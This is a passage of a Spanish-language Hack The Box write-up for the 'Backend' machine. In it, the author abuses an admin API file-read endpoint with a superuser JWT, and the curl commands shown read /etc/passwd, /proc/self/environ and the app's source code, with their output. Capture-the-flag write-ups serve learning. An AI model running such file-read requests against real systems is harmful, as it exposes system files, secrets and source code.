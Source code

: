 Pero no dispone del parámetro ```debug``` que es necesario. Sin embargo, existe otro que me permite traer archivos locales de la máquina

<img src="/writeups/assets/img/Backend-htb/7.png" alt="">

Obtengo el ```/etc/passwd``` como ```PoC```

```null
curl -s -X POST http://10.10.11.161/api/v1/admin/file -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjk3ODEwODk4LCJpYXQiOjE2OTcxMTk2OTgsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.mU5_m_ktg4qJz5dKSx43MW3tpodKHjbMivcBXJsrdq0" -H "Content-Type: application/json" -d '{"file":"/etc/passwd"}' | jq  -r '.["file"]' | grep sh$
root:x:0:0:root:/root:/bin/bash
htb:x:1000:1000:htb:/home/htb:/bin/bash
```

Listo las variables de entorno

```null
curl -s -X POST http://10.10.11.161/api/v1/admin/file -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjk3ODEwODk4LCJpYXQiOjE2OTcxMTk2OTgsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.mU5_m_ktg4qJz5dKSx43MW3tpodKHjbMivcBXJsrdq0" -H "Content-Type: application/json" -d '{"file":"/proc/self/environ"}' | jq  -r '.["file"]' | tr ':' '\n'
APP_MODULE=app.main
appPWD=/home/htb/uhcLOGNAME=htbPORT=80HOME=/home/htbLANG=C.UTF-8VIRTUAL_ENV=/home/htb/uhc/.venvINVOCATION_ID=83a8dc6217124f6eabe2a17ecd2338eeHOST=0.0.0.0USER=htbSHLVL=0PS1=(.venv) JOURNAL_STREAM=9
18447PATH=/home/htb/uhc/.venv/bin
/usr/local/sbin
/usr/local/bin
/usr/sbin
/usr/bin
/sbin
/binOLDPWD=/
```

Desde la ruta ```/home/htb/uhc/app/main.py``` puedo ver el código fuente

```null
curl -s -X POST http://10.10.11.161/api/v1/admin/file -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjk3ODEwODk4LCJpYXQiOjE2OTcxMTk2OTgsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.mU5_m_ktg4qJz5dKSx43MW3tpodKHjbMivcBXJsrdq0" -H "Content-Type: application/json" -d '{"file":"/home/htb/uhc/app/main.py"}' | jq  -r '.["file"]' | tr ':' '\n'
```
